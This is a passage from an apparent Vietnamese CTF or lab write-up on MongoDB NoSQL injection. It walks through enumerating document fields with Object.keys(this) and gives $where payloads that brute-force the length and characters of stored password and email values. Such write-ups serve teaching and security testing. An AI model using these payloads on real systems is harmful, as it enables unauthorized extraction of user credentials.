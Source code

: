=> Tên trường ứng vs index 0 là `id`, index 1 là `username`

------

Bước 4: Xác định trường token và giá trị các trường

- Lặp lại bước trên với `Object.keys(this)[2]`, `Object.keys(this)[3]`… để tìm tất cả các trường.

=> index 2: `password`

=> index 3: `email`

=> index 4:  => out of index

Bruteforce để xác định giá trị `password`, `email` 

```
"$where": "this.password.length=='20'"
"$where": "this.password.charAt(0)=='a'"
```

```
"$where": "this.email.length=='25'"
"$where": "this.email.charAt(0)=='a'"
```

![image-20250709180931192](./image/image-20250709180931192.png)

Độ dài email: 25, độ dài password là: 20
